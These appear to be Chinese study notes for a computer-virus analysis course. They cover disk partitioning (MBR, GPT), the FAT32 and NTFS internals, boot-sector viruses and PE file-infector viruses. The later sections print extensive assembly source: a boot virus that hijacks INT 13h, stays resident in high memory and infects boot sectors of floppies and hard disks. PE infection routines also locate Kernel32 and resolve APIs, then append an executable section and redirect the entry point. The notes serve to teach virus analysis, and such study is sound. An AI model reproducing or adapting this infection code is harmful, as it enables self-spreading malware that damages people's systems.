

# 磁盘结构

## MBR

主引导扇区由**主引导记录**（MBR）、**主分区表**（DPT）和**引导扇区**（Boot Record ID）标记组成。

**主引导记录（MBR，Main Boot Record）**是位于<u>磁盘最前边</u>的一段引导代码。它负责磁盘操作系统(DOS)对磁盘进行读写时<u>分区合法性的判别、分区引导信息的定位</u>，它由磁盘操作系统(DOS)在对硬盘进行初始化时产生的。

**分区引导记录（DBR，Dos Boot Record）**是由 FORMAT 高级格式化命令写到该<u>扇区</u>的内容，DBR 是由硬盘的 MBR 装载的程序段。DBR 装入<u>内存</u>后，即开始执行该引导程序段，其主要功能是完<u>成操作系统的自举并将控制权交给操作系统</u>。每个分区都有引导扇区，但只有被设为活动分区才会被 MBR 装的 DBR 入内存运行。  

**EBR（Extended Boot Record）**是与 MBR 相对应的一个概念。在 MBR 里，只放不多于三个主分区，剩下的分区，则由与 MBR 结构很相像的另一种分区结构（EBR，也就是扩展分区引导记录）进行说明。一个 EBR 不够用时，可以增加另一个 EBR，如此像一根链条一样地接下去，直到够用为止。 


分区表结构

- 第 8 至 11 字节：分区相对扇区地址
- 第 12 至 15 字节：分区大小

每个 EBR 扇区末尾的四个分区表项只有前两个有用，其中第一个分区表是该 EBR 扇区对应的空间的信息，起始地址为==该 EBR 扇区的地址 +  分区表项第 8 至 11 字节==；第二个分区表是扩展分区信息，起始地址为 ==MBR 的第四项的第 8 至 11 字节 + 该分区表项的第 8 至 11 字节==

总结一下，在 Windows 系统下如果采用 MBR 的引导方式，当分区个数大于等于 4 的时候，一般情况下系统会将前三个分区设为主分区，第四个作为扩展分区(扩展分区中包含若干个逻辑分区)。MBR 扇区的 DPT 中前三个表项可以直接定位前三个主分区的 DBR 扇区，第四个表项指向第一个逻辑分区的 EBR 扇区，根据 EBR 中的 DPT 前两个表项分别可以定位本逻辑分区的 DBR 扇区和下一个逻辑分区的 EBR 扇区，由此逻辑分区链接成一条链进行管理。

## GPT


### 保护 MBR

**保护 MBR** 只有一个标识为 0xEE 的分区，以此来表示这块硬盘使用 GPT 分区表。可以使计算机认为这个磁盘是合法的，并且已被使用，从而不再去试图对其进行分区、格式化等操作，而 EFI 根本不使用这个分区表。

### EFI

EFI 部分又可以分为 4 个区域：EFI 信息区(GPT 头)、分区表、GPT 分区、备份区域。

#### GPT 头

GPT 头位于 GPT 磁盘的第二个扇区。GPT 头会定义分区表的起始位置、分区表的结束位置、每个分区表项的大小、分区表项的个数及分区表的校验和等信息。

#### GPT 分区表

分区表位于 GPT 磁盘的 2～33 号扇区，一共占用 32 个扇区，能够容纳 128 个分区表项，每个分区表项大小为 128 字节。

#### 分区区域

GPT 分区区域通常都是起始于 GPT 磁盘的 34 号扇区。

# 文件系统

磁盘分区后只是划分了存储数据的空间，还需要⽂件系统将分区空间内的⽂件组织管理起来。

与⽂件系统相关的组成部分有：操作系统引导记录（DOS Boot Record，DBR）、⽂件分配表（File Allocation Table， FAT）、⽂件⽬录表（File Directory Table，FDT）、数据区。

## FAT 32

FAT 可以理解成为⼀种⽂件管理系统，它可以追踪记录每⼀段程序或⽂件的位置。
FAT ⽂件系统将数个扇区合并成⼀个簇（Cluster），作为⽂件分配存储空间的基本单位，因为当分区容量较大时，选用扇区管理会增加 FAT 表的项数。


⽂件⽬录表（FDT），也称根⽬录 DIR（Root Directory），紧跟在 FAT 表之后。
FDT 记录根⽬录下每个⽂件（⽬录）的起始单元、⽂件属性等。定位⽂件位置时，操作系统根据 FDT 中的起始单元，结合 FAT 表就可以确定⽂件在磁盘中的具体位置和⼤⼩。

### DBR

DBR 区即操作系统引导记录扇区，通常占⽤分区的第 0 扇区共 512 个字节。内容包括：跳转指令、⼚商标志和操作系统版本号、BPB（BIOS Parameter Block）、扩展 BPB、OS 引导程序、结束标志⼏部分组成。

MBR 将 CPU 执⾏转移给引导扇区，因此，引导扇区的前三个字节必须是合法的可执⾏的基于 x86 的 CPU 指令。这通常是⼀条跳转指令，该指令负责跳过接下
来的⼏个不可执⾏的字节(BPB 和扩展 BPB)，跳到操作系统引导代码部分。

保留扇区是指从分区 DBR 扇区开始的仅为系统所有的扇区，包括 DBR 扇区。

| 偏移量 | 字节数 | 含义                                                         |
| :----- | :----- | ------------------------------------------------------------ |
| 0x0D   | 1      | 每簇扇区数                                                   |
| 0x0E   | 2      | 保留扇区数，FAT 表的起始位置                                 |
| 0x1C   | 4      | 隐藏扇区数 ，与分区表中所描述的该分区的起始扇区号⼀致。<br/>对于主磁盘分区来讲，是 MBR 到该分区 DBR 之间的扇区数；对于扩展分区中的逻辑驱动器来讲，是其 EBR 到该分区 DBR 之间的扇区数。 |
| 0x2C   | 4      | 根目录首簇号                                                 |
| 0x30   | 2      | ⽂件系统信息扇区号。⽂件系统信息扇区，⽤以记录数据区中空闲簇的数量及下⼀个空闲簇的簇号，该扇区⼀般在分区的 1 号扇区，也就是紧跟着 DBR 后的⼀个扇区 |

### FAT

FAT 1 跟在 DBR 之后，其具体地址由 DBR 的 BPB 参数中偏移量为 0EH～0FH 的两字节描述；FAT 2 跟在 FAT 1 之后，其地址可以⽤ FAT 1 的所在扇区号加上每个 FAT 所占的扇区数获得。

从 2 号 FAT 项开始跟数据区中的第⼀个簇映射。FAT 项从 0 开始。数据区中的第⼀个簇编号为 2 号簇，然后 3 号簇跟 3 号 FAT 项映射，以此类推，直到数据区中的最后⼀个簇。

定位 FAT 1 的步骤

1. 系统通过该分区的分区表信息，定位到其 DBR 扇区；

2. 读取 DBR 的 BPB，主要读取“DBR 保留扇区数”这个参数，它在 DBR 的 0EH～0FH 偏移处；

3. 读取到“DBR 保留扇区数”这个参数的值为 6 之后，跳转到该分区的 6 号扇区，这⾥就是 FAT 1 的开始。

4. FAT 2 的位置：⽤“DBR 保留扇区数”加上“每 FAT 扇区数”。

### 目录项

FAT 32 文件系统中，分区根目录下的文件和目录都放在根目录区中，子目录中的文件和目录都放在子目录区中，并且每 32 个字节为一个目录项（FDT），每个目录项纪录着一个目录或文件（也可能是多个目录项记录一个文件或目录）。

当创建⼀个长⽂件名时，其对应短⽂件名的存储有以下三个处理原则：

- 系统取长⽂件名的前 6 个字符加上“～1”形成短⽂件名，其扩展名不变；如果已存在这个名字的⽂件，则符号“～”后的数字⾃动增加；
-  如果有 DOS 和 Windows 3.x ⾮法的字符，则以下画线“_”替代。

### 简答

> [!NOTE]
>
> **==简述 FAT32 文件系统文件存储的原理。==**
>
> FAT32 将磁盘划分为保留区、FAT 区和数据区。在 FAT32 中，磁盘被划分为若干个“簇”，<u>每个簇是文件系统分配空间的基本单位</u>。文件存储时，系统会查找空闲簇，并将文件的数据写入一个或多个簇中。由于这些簇在物理磁盘上不一定是连续的，<u>FAT 表</u>便负责记录每个簇的链接关系，形成类似链表的结构。这样，当系统读取文件时，可以通过 FAT 表从文件的起始簇出发，逐步找到文件的所有数据。每个文件或目录都在目录表中有一个目录项，记录了文件名、起始簇号、大小、创建时间等信息。

> [!NOTE]
>
> **==简述 FAT32 文件系统文件恢复的基本思想。==**
>
> FAT32 文件系统的文件恢复主要基于文件删除时的处理方式。一般情况下，当我们在 FAT32 文件系统中删除一个文件时，系统并不会立刻把文件的实际数据从磁盘上清除，而是仅仅在<u>目录项</u>中将文件名的第一个字符标记为“已删除”（通常用 E5H 标识），并在 <u>FAT 表中释放这个文件占用的簇</u>，使得这些簇看起来“未被使用”，可以被其他新文件覆盖。
>
> 基于这种机制，文件恢复的基本思想就是在文件还没有被新数据覆盖之前，通过<u>扫描目录项和 FAT 表，找到被标记为删除但数据区还存在的文件</u>，然后恢复它们的目录信息和簇链表。
>
> 所以， 文件恢复通常分为两个步骤： **<u>一是恢复文件的目录信息 （包括文件名和起始簇号等）；二是根据 FAT 表信息，重建文件的数据簇链，尽可能还原文件的完整内容。</u>**


## NTFS

将⽂件系统所需的全部数据，如记录卷的分配状态位图、⽂件、⽬录和系统引导程序等数据，像⼀般的⽂件⼀样储存在硬盘上。这些系统⽂件称为元⽂件(metafile)，这些数据则称为元数据(metadata)。

### 引导扇区

NTFS 的第⼀个扇区为引导扇区，即 DBR 扇区。其中有 NTFS 分区的引导程序和⼀些 BPB 参数，系统根据这些 BPB 参数来得到分区的重要信息。
NTFS ⽂件系统的 DBR 扇区与 FAT ⽂件系统的结构⼀样，也包括跳转指令、OEM 代号、BPB 参数、引导程序和结束标志。

### $MFT

16 个元⽂件中主⽂件表（\$MFT）是⼀个⾮常重要的元⽂件，<u>它由⽂件记录构成</u>，<u>每个⽂件记录占⽤ 2 个扇区</u>。在 \$MFT 中前 16 个⽂件记录总是元⽂件的记录。系统通过 $MFT 来确定⽂件在磁盘上的位置以及⽂件的所有属性。

⽂件记录由⽂件记录头、属性列表、结束标志“FFFFFFFFH”组成。

从<u>文件记录头</u>中可以找到第一个属性的偏移地址，由此找到第一个属性。


每个文件记录中都有多个属性，他们相对独立，有各自的类型和名称。每个属性都由两部分组成，即属性头和属性体。<u>属性头的**前四个字节**为属性的类型</u>。

当一个文件很小时，其所有属性体都可以存放在文件记录中，该属性就称为**常驻属性**。如果⼀个属性（⽂件数据属性）太⼤不能放在只有 1KB 的 MFT ⽂件记录⾥，NTFS 将从 MFT 之外分配区域，这些区域通常称为⼀个运⾏（Run）或⼀个盘区（Extent），它们⽤来存储属性值。这种属性称为**⾮常驻属性**。当⼀个属性为⾮常驻时，其头部包含 NTFS 需要在磁盘上定位属性值的有关信息。

80H 属性


### $Root

元⽂件 $Root 是⽤来管理根⽬录的，其⽂件名实际上是“.”，它包含 6 个属性。

### 简答

> [!NOTE]
>
> **==文件定位==**
>
> 　　1. 定位 DBR，通过 DBR 可得到 $MFT 的起始簇号及簇大小；
> 　　2. 定位并找到 MFT 后，在其中寻找根目录的文件记录，一般在 5 号文件记录；
> 　　3. 在根目录的文件记录的 90H 属性中得到 B+ 树索引的根节点文件信息，重点在 A0 属性上。通过属性中的 Run List 定位到其数据流；
> 　　4. 从 Run List 定位到起始簇后，每个索引项 0x68 个字节，分析索引项可以得到文件名等信息；
> 　　5. 从索引项中可以获取 MFT 的参考号（每个索引项的前 8 个字节）；
> 　　6. 进入到 MFT 的参考号，即相对于 MFT 起始位置偏移参考号项；
> 　　7. 进入到 MFT 找到对应的文件记录；
> 　　8. 然后再根据 80H 属性中的数据流就可以找到文件真正的数据了。
>
> 一个文件记录两个扇区，一个扇区 512（0x200） 个字节

# 引导型病毒

## 中断

每个中断向量占 **4 个字节**：2 字节偏移（Offset）+ 2 字节段地址（Segment）。

中断向量表



中断劫持


在 Windows 系统中，中断向量表（Interrupt Vector Table，IVT）通常是指中断服务程序中的中断描述符表（Interrupt Descriptor Table，IDT）。

在系统启动时，Windows 内核会初始化 IDT 并为每个中断或异常分配⼀个 IDT Entry。这些 Entry 包含了中断处理程序的⼊⼝地址、特权级别、中断门等信息。当发⽣⼀个中断或异常时，CPU 会根据中断向量从 IDT 中找到对应的 IDT Entry，然后跳转到相应的中断处理程序的⼊⼝地址。

中断处理程序会根据中断类型执⾏相应的处理逻辑，⽐如与硬件设备通信、保存现场、处理异常情况等。处理完中断后，返回到被中断的任务或继续执⾏其他任务。

在 Windows 系统中，应⽤程序、驱动程序或操作系统本身可以通过注册中断处理程序的⽅式来处理特定的中断或异常事件。这样可以实现⾃定义的中断和异常处理逻辑。

## 内存映射文件

原理：内存映射⽂件提供了⼀组独⽴的函数，使应⽤程序能够通过内存指针像访问内存⼀样对磁盘上的⽂件进⾏访问。内存映射⽂件函数将磁盘上的⽂件的全部或者部分映射到进程虚拟地址空间的某个位置，以后对⽂件内容的访问就如同在该地址区域内直接对内存访问⼀样。

使⽤内存映射⽂件读写⽂件

1. 调⽤ CreateFile 函数打开想要映射的 HOST 程序，返回⽂件句柄 hFile。
2. 调⽤ CreateFileMapping 函数⽣成⼀个建⽴基于 HOST ⽂件句柄 hFile 的内存映射对象，返回内存映射对象句柄 hMap。
3. 调⽤ MapViewOfFile 函数将整个⽂件映射到内存中，得到指向内存的第⼀个字节的指针 pMem。
4. ⽤指针 pMem 对整个 HOST ⽂件进⾏操作，实施病毒感染。

## 引导型病毒

指专门感染主引导扇区和引导扇区的计算机病毒。感染主引导区的病毒称作 **MBR 病毒**；感染引导区的病毒称作 **DBR 病毒**。

==**引导型病毒的基本原理：**通过感染主引导扇区和引导扇区，在启动系统时即获取控制权。引导型病毒在感染主引导扇区/引导扇区时，将被感染扇区的“内容”写⼊其他扇区，并在 FAT 中标示该扇区所在簇为坏簇。为能在机器运⾏过程中能实施感染，通过修改内存⼤⼩，截取⾼端内存，实现常驻内存。==

MBR 病毒感染过程

1. BIOS 将带毒硬盘主引导区加载到内存 0:7C00 处。
2. 将 0:413 单元的值减少 1 KB。
3. 病毒复制到高端地址，修改 INT 13H 地址，指向病毒感染段，并保存原 INT 13H 地址。
4. 原引导区加载到内存 0:7C00 处。
5. 当系统/⽤户进⾏磁盘读写时调⽤ INT 13H，激活病毒。

```asm
; 复制病毒到内存高端
mov ax,ds:[413h] ;得到内存大小(0:413h单元存有以K计数的内存大小)
dec ax
dec ax
mov ds:[413h],ax ;将原内存大小减2K

;计算高端内存地址
mov cl,06	; 转换为段地址
shl ax,cl 
mov es,ax
xor di,di
mov si,sp
mov cx,VirusSize
cld
rep movsb ;把病毒搬移到高端地址里

; 跳转执行高地址病毒代码
push ax ; 保存高端段地址
mov di,OFF @@HighAddr
push di
retf ;跳到高端继续执行

; 替换中断13h向量
@@HighAddr:
cli ;修改中断向量前，最好关中断 
xchg ds:[13h*4+2],ax	; 保存原中断段地址
mov cs:[OldInt13Seg],ax
mov ax,OFF @@NewInt13
xchg ds:[13h*4],ax	; 替换偏移地址
mov cs:[OldInt13Off],ax ;修改中断13h
push ds
pop es ;把es复位为0

; 感染硬盘
cmp dl,80h ;是否从硬盘引导？
jz short @@ReadOldHardBoot
push dx ; 从软盘引导，则传染硬盘
mov dl,80h

call @@OptDisk ;调用传染模块
pop dx
; 读取并执行原引导扇区
@@ReadOldFlopyBoot: ;读出原软盘引导程序 
mov ax,0201h
mov cx,79*100h+17 ;传染时将原引导程序保存在0面79道17扇区中
mov dh,00h
call @@CallInt13
jc short @@ReadOldFlopyBoot ;失败，继续读直到成功

; 显示病毒信息
@@ExecOldBoot:
cmp es:[bx.Flags],0aa55h
jnz @@ExecOldBoot
mov ah,02h
int 1ah ;取系统时间
cmp cx,22*100h+30 ;是否大于22：30分
jb @@ExitDisp ;未到，则不显示
lea si,VirusMsg 
@@DispMsg:
mov al,cs:[si]
inc si
mov ah,0eh
int 10h ;显示al中的字符
or al,al
jnz @@DispMsg
xor ax,ax
int 16h ;键盘输入
@@ExitDisp:
mov cx,0001h ;恢复cx初值
push es
push bx
retf ;去执行原引导程序 

@@ReadOldHardBoot:
mov ax,0201h 
mov cx,0002h ;传染时将原硬盘主引导程序保存在0面0道2扇区中
mov dh,00h 
call @@CallInt13 ;读出
jc short @@ReadOldHardBoot ;失败，继续读直到成功
jmp short @@ExecOldBoot ;去执行原引导程序 

; 新定义的 INT 13h 中断服务例程
@@NewInt13: ;新Int 13h（传染块） 
cmp dx,0000h ;是软盘吗？
jnz short @@JmpOldInt13
cmp ah,02h	; 是读扇区操作？
jnz short @@JmpOldInt13
cmp cx,0001h	; 是第一个扇区？
jnz short @@JmpOldInt13
call @@OptDisk ; 若发现读软盘扇区，则感染软盘

; 跳转回 原始 BIOS 的 INT 13h 中断处理程序
@@JmpOldInt13:
cli
JmpFar db 0eah ;远跳转指令
OldInt13Off dw ?
OldInt13Seg dw ?

; 手动模拟中断行为
@@CallInt13: 
pushf ;模拟Int 13h指令 
push cs
call @@JmpOldInt13
ret 

; 感染模块
@@OptDisk: ;传染dl表示的磁盘（dl-0 A: 80:C) 
; 保存现场
pusha
push ds
push es  ; 保存所有通用寄存器和段寄存器（ds, es）
push cs
pop es
push cs
pop ds   ; 设置 ds = es = cs，目的是数据访问统一指向代码段
; 读取原始引导扇区（Boot Sector）
mov bx, OFF OldBootSpace    ; 设置缓冲区偏移
mov ax, 0201h               ; AH=02（读扇区），AL=01（读1个扇区）
mov cx, 0001h               ; CH=柱面=0，CL=扇区=1（MBR 或软盘引导扇区）
mov dh, 00h                 ; 磁头号=0
call @@CallInt13            ; 读原引导扇区
jc short @@OptOver          ; 如果有错误（CF=1），跳过感染

; 检查是否已感染
mov di,bx
cmp ds:[di.VirusFlag],’V’ ;判断是否已经有病毒？
jz short @@OptOver ;若有，则退出
; 判断是否是软盘
cmp dl,00h
jz short @@IsOptFlopyDisk
@@IsOptHardDisk:
mov cx,0002h ;若是硬盘，保存在0面0道2扇区 
jmp short @@SaveOldBoot
; 设置软盘的病毒保存位置
@@IsOptFlopyDisk:
mov cx,79*100h+17 ;若是软盘，保存在0面79道17扇区 

; 将原引导扇区保存到某个位置
; 将病毒代码插入到引导扇区中
; 最后把被“感染”的新引导扇区写回到磁盘的第1扇区。
@@SaveOldBoot: 
mov ax,0301h 
mov dh,0h
call @@CallInt13 ;保存原引导扇区，调用中断13h，写入扇区（目标由 CX, DL 控制）
jc short @@OptOver
; 将病毒引导代码一部分写入到缓冲区（覆盖原Boot）
mov si,OFF @@Start
cld
movsw
movsb	; 写入病毒到引导扇区 

; 拷贝病毒完整代码到缓冲区后段
mov di,OFF @@Begin+200h
mov si,OFF @@Begin
mov cx,OFF @@End-OFF @@Begin
cld
rep movsb ; 
; 写回被感染的引导扇区
mov ax,0301h
mov cx,0001h
mov dh,00h
call @@CallInt13 ;写回已经被修改了的引导程序 
@@OptOver: ;退出传染
pop es
pop ds ;恢复段址与通用寄存器
popa

```

引导型病毒感染的清除

- 通过备份主引导扇区进⾏还原
- 通过恢复中断向量表实现对病毒的灭活

### 简答

> [!NOTE]
>
> **==简述引导型病毒中中断劫持、病毒代码激活的原理。==**
>
> 中断劫持：病毒通过篡改 BIOS 中断向量表（如 INT 13H 磁盘服务中断），将原本指向系统服务程序的中断入口地址改写为指向病毒代码。当系统或应用程序调用该中断时，控制权会优先转移至病毒程序。
>
> 病毒代码激活：在系统冷启动阶段，BIOS 自动加载磁盘首扇区（MBR/DBR）至内存 0000:7C00H 执行。感染 MBR 的病毒代码优先获得控制权后，首先将原始引导记录迁移至磁盘隐蔽区域（如末扇区），随后通过修改内存中的中断向量表建立持久化钩子，最后跳转执行恢复的原始引导程序。病毒主体常驻高端内存，通过劫持的中断持续捕获系统控制权，在满足预设触发条件（时间/热启动次数/特定操作）时激活破坏模块。

# 文件型病毒分析

## 病毒重定位

```asm
VStart：
...
call delta
delta:
pop ebp
sub ebp, offset delta-VStart
lea eax, [offset Var2+ebp]
```

## 文件型病毒基本思路


主要过程

1. 搜索感染⽬标
2. 打开感染⽂件，判断是否已被感染；
3. 将病毒写⼊⽬标⽂件尾部；
4. 修改⽬标⽂件头部；

## PE 文件型病毒

```asm
; 病毒重定位
vstart:
  push ebp
  push esp
  call nstart
nstart: 
  pop ebp
  sub ebp,offset nstart

;  备份原始程序的基址（Base Address）和入口点（Entry Point）
cmp old_base[ebp],0
jnz gonext
mov old_base[ebp],400000h
gonext:
  cmp old_in[ebp],0
  jnz change
  mov old_in[ebp],1000h
change:
  mov eax, old_base[ebp]
  mov des_base[ebp], eax
  mov eax, old_in[ebp]
  mov des_in[ebp], eax

; 获得KERNEL32地址
mov   eax,[esp+10h] ;//取Kernel32返回地址
and   ax,0f000h
mov   esi,eax   ;//得到Kernel.PELoader代码位置(不精确)
LoopFindKernel32:
  sub   esi,1000h 
  cmp   word ptr[esi],'ZM' ;//搜索EXE文件头
  jnz   short LoopFindKernel32
GetPeHeader:
  movzx edi,word ptr[esi+3ch]
  add   edi,esi
  cmp   word ptr[edi],'EP' ;//确认是否PE文件头
  jnz   short LoopFindKernel32      ;esi->kernel32,edi->kernel32 PE HEADER
  ;/////////////////////////////////查找GetProcAddress函数地址
  mov vKernel32[ebp],esi

; 获得GetProcAddress函数地址
; 获取导出表地址
GetPeExportTable:
   mov   ebx,[edi+78h];4+14h+60h
   add   ebx,vKernel32[ebp]      ;//得到输出函数表
   mov   vExportKernel[ebp],ebx  
   ; 准备查找目标函数名（"GetProcAddress"）
   push 14
   call aGetProcAddr
   db "GetProcAddress",0
aGetProcAddr: 
  lea  eax,GetApiAddress[ebp]
  call eax
  or eax, eax        ; 判断是否成功
  jz ExitTimes       ; 如果返回值为0，说明查找失败，跳到 ExitTimes
  mov vGetProcAddress[ebp], eax ; 保存 GetProcAddress 的地址

; 获取Kernel32其他函数地址
  lea esi,bGetModuleHandle[ebp]
  lea edi,vGetModuleHandle[ebp]
  cld
ComeOn:
  lodsd; //mov eax，[esi]，esi=esi+4
  add eax,ebp
  push eax
  push vKernel32[ebp]
  call dword ptr vGetProcAddress[ebp]
  or eax,eax
  jz ExitTimes
  stosd; //mov  dword ptr es:[edi],eax, edi=edi+4
  cmp dword ptr[esi],0
  jnz ComeOn
```

利⽤ API 查找感染⽬标

1. 获取当前程序所在⽬录
2. 保存当前⽬录
3. 获取 Windows 所在的⽬录，并将其设为当前⽬录
4. 获取 System 所在⽬录，并将其设为当前⽬录
5. 查找当前⽬录下的第⼀个 EXE ⽂件

```asm
; 判断目标程序是否为合法 PE 文件，并且检查其是否已经被感染（标记为“FB”）
mov ebx, eax
assume ebx :ptr IMAGE_DOS_HEADER
mov eax,[ebx].e_lfanew	;  获取 PE 头偏移
test eax,0fffff000h
jnz  EndDir  ;Header+stub不可能太大,超过4096byte 
mov pe_header_off[ebp],eax
add ebx,eax ;此时ebx指向PE文件头
assume ebx:ptr IMAGE_NT_HEADERS
cmp [ebx].Signature,IMAGE_NT_SIGNATURE
jnz UnMap
cmp word ptr[ebx+1ah],’FB’ ;是否已经感染 

; 准备为病毒添加一个新节到目标 PE 文件
movzx eax,[ebx].FileHeader.NumberOfSections ;文件的节数
mov ecx,28h ; 每个节表的长度
mul ecx
add eax,pe_header_off[ebp]
add eax,18h ;PE Header长度
movzx esi,[ebx].FileHeader.SizeOfOptionalHeader
add eax,esi	; eax 现在指向第一个节表项的位置
mov NewSection_off[ebp], eax ;保存新节起始RVA
add eax,28h    ;比较增加新节后是否超出SizeOfHeaders  (节.TEXT在文件中的RVA)
cmp eax,[ebx].OptionalHeader.SizeOfHeaders
ja  Infest   ;即使没有添加空间还是可以免疫

; 修改映射文件大小，对齐 PE 文件尾部，为病毒添加新节提供安全空间
mov ecx,FileAlign[ebp]
xor edx,edx
div ecx	; 计算应占用几个对齐单位
test edx,edx
jz NoChange
inc eax
NoChange:
mul ecx
mov fsize[ebp],eax;文件尺寸节文件对齐
add eax,1000h 

; 保存原入口
assume ebx:ptr IMAGE_NT_HEADERS
Noinfect:
mov  eax,[ebx].OptionalHeader.AddressOfEntryPoint
mov old_in[ebp],eax
mov eax, [ebx].OptionalHeader.ImageBase
mov old_base[ebp],eax  

; 在节表中添加新节
mov edi,NewSection_off[ebp]    ;新节的RVA
add edi,pMapping[ebp] ;edi->新节起始地址
inc [ebx].FileHeader.NumberOfSections ;节数目+1
mov esi,edi  ;edi指向新节
sub esi,28h  ;esi指向上一个节
assume edi:ptr IMAGE_SECTION_HEADER
assume esi:ptr IMAGE_SECTION_HEADER
mov [edi].Name1, ‘B.’;  为新节命名
mov [edi+2h].Name1, ‘hsiF’;  为新节命名
push [ebx].OptionalHeader.SizeOfImage ;原文件映像装入内存后的总尺寸,对齐SectionAlignment.
pop [edi].VirtualAddress   ;新节在内存中的地址
mov eax,offset vend-offset vstart
mov [edi].Misc.VirtualSize,eax ;新节的大小(未对齐)
mov ecx,[ebx].OptionalHeader.FileAlignment
xor edx,edx
div ecx
test edx,edx
jz NoChange1 
inc eax 
NoChange1:
mul ecx
mov [edi].SizeOfRawData,eax ;新节对齐FileAligment后的大小
mov eax,fsize[ebp]
mov [edi].PointerToRawData,eax ;本节在文件中的位置
mov [edi].Characteristics,0E0000020h ;可读可写可执行 	

; 更新SizeOfImage,AddressOfEntryPoint 
mov eax,[edi].Misc.VirtualSize ;新节的大小(未对齐)
mov ecx,[ebx].OptionalHeader.SectionAlignment ;内存节对齐
xor edx,edx
div ecx
test edx,edx
jz NoChange2
inc eax
NoChange2:
mul ecx
add eax,[ebx].OptionalHeader.SizeOfImage;对齐后大小+原文件映像装入内存后的总尺寸,对齐SectionAlignment.
mov [ebx].OptionalHeader.SizeOfImage,eax ;更新后的文件映像装入内存后的总尺寸,对齐SectionAlignment.
mov eax,[edi].VirtualAddress ;新节在内存中的地址写入入口点
mov [ebx].OptionalHeader.AddressOfEntryPoint,eax 

; 将病毒代码写入映射文件的内存中(在原文件之后) 
mov edi,pMapping[ebp]
add edi,fsize[ebp]
lea esi,vstart[ebp]
mov ecx,offset vend-offset vstart
cld
rep movsb
```


## 简答

> [!NOTE]
>
> **==简述病毒重定位的原因以及实现的原理。==**
>
> 原因：当病毒感染不同程序后，<u>宿主被加载至内存的基地址各不相同</u>，若代码中存在硬编码的绝对地址（如函数调用、数据访问），基址变化将导致寻址错误，病毒逻辑无法执行。重定位机制通过动态修正地址引用，使病毒代码具备位置无关性，从而适应随机基址环境，保障跨宿主传播的可行性。
>
> 原理：病毒常利用 <u>CALL 指令</u>的压栈特性：执行 CALL 跳转至下一行代码后，立即通过 <u>POP 指令</u>从栈中取出返回地址，此地址即为当前代码位置。通过计算<u>该地址与编译时预设标签的差值</u>，即可得到实际基址偏移量。病毒入口代码获取偏移值后，将其存入寄存器（如EBP），后续所有绝对地址访问均转换为基址寄存器+固定偏移量形式，实现动态寻址。

> [!NOTE]
>
> ==**简述 PE 文件型病毒获取 Kernel32.dll 基地址的原因和方法。**==
>
> 原因：Win32 程序⼀般运行在 Ring 3，Win32 下的系统功能调⽤不是通过中断实现，⽽是<u>通过调⽤动态链接库中的 API 函数实现</u>。普通 PE 程序通过导⼊节获取 API 函数地址，⽽ PE 病毒只有代码节，<u>对 API 函数的调⽤需要⾸先找到其在相应 DLL 中的地址</u>。
>
> 方法：
>
> - 利⽤程序的返回地址，在其附近搜索 Kernel32 模块基地址。系统打开⼀个可执⾏⽂件的时候，会调⽤ Kernel32.DLL 中的 <u>CreateProcess 函数</u>，该函数在完成装载应⽤程序后，会将其在 Kernel32.DLL 中的<u>返回地址压⼊堆栈</u>。根据堆栈中的地址可以找到 Kernel32.DLL 模块的<u>地址空间</u>，然后可以以此为基础回退到 Kernel32.DLL 的<u>⽂件头</u>，从⽽确定其导出函数节。
> - <u>对相应操作系统分别给出固定的 Kernel32 模块的基地址。</u>对于同⼀版本的 Windows 操作系统，Kernel32 模块的地址是固定的，甚⾄⼀些 API 函数的⼤概位置都是固定的。

> [!NOTE]
>
> ==**PE 文件型病毒如何获取 Windows API 函数地址。**==
>
> 在得到 Kernel32.DLL 的模块地址后，就可以在该模块中的<u>导出表</u>中搜索所需要的 API 地址。另⼀种办法是在 Kernel32.DLL 中搜索出 <u>GetProcAddress 和 LoadLibray</u> 两个 API 函数的地址，然后利⽤这两个 API 函数得到所需要的 API 函数地址。
>
> **已知 API 函数序列号**搜索 API 函数地址时，先<u>定位 PE ⽂件头</u>，从 PE ⽂件头中的<u>可选⽂件头</u>中取出数据⽬录表的第⼀个数据⽬录，得出<u>导出函数的地址</u>。接着<u>从导出表的 Base 字段取得起始序号</u>，将需要查找的导出序号减去起始序号，得到函数⼊⼝地址表中的<u>索引号</u>。验证索引号的合法性后，⽤该索引值在 <u>AddressOfFunctions</u> 字段指向的<u>地址表取出相应的项⽬</u>。
>
> **已知函数名**查找⼊⼝地址时，先<u>定位 PE ⽂件头</u>，从 PE ⽂件头中的<u>可选⽂件头</u>中取出数据⽬录表的第⼀个数据⽬录，得出<u>导出函数的地址</u>。从 AddressOfNames 字段指向的函数名地址表的第⼀项开始逐⼀查找与其对应项。通过在 <u>AddressOfNames 中匹配项的索引值</u>，在 A<u>ddressOfNameOrdinals 指向的数组中查找索引值</u>。以该索引值在 <u>AddressOfFunctions</u> 中获取对应的 RVA。

> [!NOTE]
>
